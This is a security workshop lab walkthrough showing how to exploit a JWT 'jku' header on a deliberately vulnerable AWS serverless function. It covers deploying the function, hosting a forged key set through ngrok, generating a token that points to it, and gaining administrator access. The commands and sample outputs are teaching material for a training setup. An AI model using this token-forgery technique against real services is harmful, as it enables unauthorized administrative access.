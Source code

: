 ## JWT - JKU Authorization Bypass

* Step 1: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 2: Run `pip3 install pipenv`

```commandline
pip3 install pipenv
```

* Step 3: Run `pipenv install`

```commandline
pipenv install
```

* Step 4: `pipenv shell`

```commandline
pipenv shell
``` 

* Step 5: In your image, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`

```commandline
cd /root/labs/Serverless-Workshop/JWT-JWK
```

* Step 6: Run `sls plugin install -n serverless-python-requirements`

```commandline
sls plugin install -n serverless-python-requirements
```

* Wait for instructor to explain the contents of the lab
* Step 7: Install a package for this to work `npm install -g jwt-cli`

```commandline
npm install -g jwt-cli
```

* Step 8: Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/JWT-JWK/serverless.yml)

* Step 9: Deploy the function with the command `sls deploy`

```commandline
sls deploy
```

* Wait for the function to deploy completely

* Step 10: Initialize the Program with the following command 

```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
```

you should see an output like this

```bash
    HTTP/1.1 200 OK
    Connection: keep-alive
    Content-Length: 73
    Content-Type: application/json
    Date: Fri, 26 Jul 2019 11:56:09 GMT
    Via: 1.1 706c647442c234a140558b049b967cc5.cloudfront.net (CloudFront)
    X-Amz-Cf-Id: GPaQyO3YdDda1NBe5hqqZ5a7Mpdf5NgZxm2kjQm1TQk76V2cWQ9m_Q==
    X-Amz-Cf-Pop: BLR50-C1
    X-Amzn-Trace-Id: Root=1-5d3aea58-c194ed1820098bd0973e3f08;Sampled=0
    X-Cache: Miss from cloudfront
    x-amz-apigw-id: dbmNwEp0PHcFY8Q=
    x-amzn-RequestId: 5a8fc007-af9c-11e9-b076-b3cc7c0d1d4b
    
    {
        "url": "https://jwk-resources-1564139712929.s3.amazonaws.com/jwks.json"
    }
```
* Step 11: Now, obtain a token from the system by logging in

```bash
http POST https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/login user=admin password=admin
```

you should see output like this

```json
{
    "token": "eyJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vandrLXJlc291cmNlcy0xNTY0MTM5NzEyOTI5LnMzLmFtYXpvbmF3cy5jb20vandrcy5qc29uIn0.eyJ1c2VyIjoidXNlciJ9.hsA7nYpgplSmhLLhFX18cJTO2HGJYeqMDT8OQe1IZRWseH9ZDOiSa1QHQvSkhmrVSB8h_0Cw6nCj_v5JblnyUC-peY1nWzDAD1xbZCfY0PDUXaq-mKOxfr1-X0Uotc-UabTISGcciLl3DJvRspJa928xNrMM5JRIpYX3X5UpiucmUcbBtudYn-KPgVJVbAvCxB_cAGTi5IWT7bDMnO5-ofcL29xjo-BYhkX9JVPG3xg6yfKEOTSgFjLq6dbldu_sNX-KSwohKKRVkhIkSQOpIdUcw8u9BMqJ3tSE8fgugEZfu5oGqciz9jo_CRwahkEjkZ8XCc4QtfO_TiL63sDnCA",
    "user": "user"
}
```

* Step 12: Copy the `token` value and run `jwt <copied token value>`

```commandline
jwt <copied token value>
```

* You should see something like this

```bash
Header
{
  "alg": "RS256",
  "jku": "https://jwk-resources-1564139712929.s3.amazonaws.com/jwks.json"
}

Payload
{
  "user": "user"
}

```

* Step 13: Now, open another two tabs of your lab image. You have now a total of three tabs. Let's call the current tab, **Tab 1**

In the **Tab 2**: 
* Step 14: In your image, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`

```commandline
cd /root/labs/Serverless-Workshop/JWT-JWK
```

* Step 15: Run: `python -m http.server`

```commandline
python -m http.server
```

In the **Tab 3**:

* Step 16: Run `ngrok http 8000`

```commandline
ngrok http 8000
```

```bash
Session Status                online
Session Expires               7 hours, 10 minutes
Update                        update available (version 2.3.34, Ctrl-U to update
Version                       2.2.8
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://f8ccd11d.ngrok.io -> localhost:8000
Forwarding                    https://f8ccd11d.ngrok.io -> localhost:8000
```

Back in **Tab 1**:
* Step 17: Run `python token_gen.py https://f8ccd11d.ngrok.io`

```commandline
python token_gen.py https://f8ccd11d.ngrok.io
```
 
* Step 18: Copy the generated token starting `ey....` from the `Step 11`

* Step 19: Run
 
```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/jwk Authorization:<Copied Token>
```

You should see a response, that you are administrator


### Teardown

* Step 20: In your image, navigate over to `/root/labs/Serverless-Workshop/Basic-API`

```commandline
cd /root/labs/Serverless-Workshop/JWT-JWK
```

* Step 21: Run `sls remove` to remove stack

```commandline
sls remove
```

* Step 21: Deactivate `pipenv` using `deactivate` command

```commandline
deactivate
```
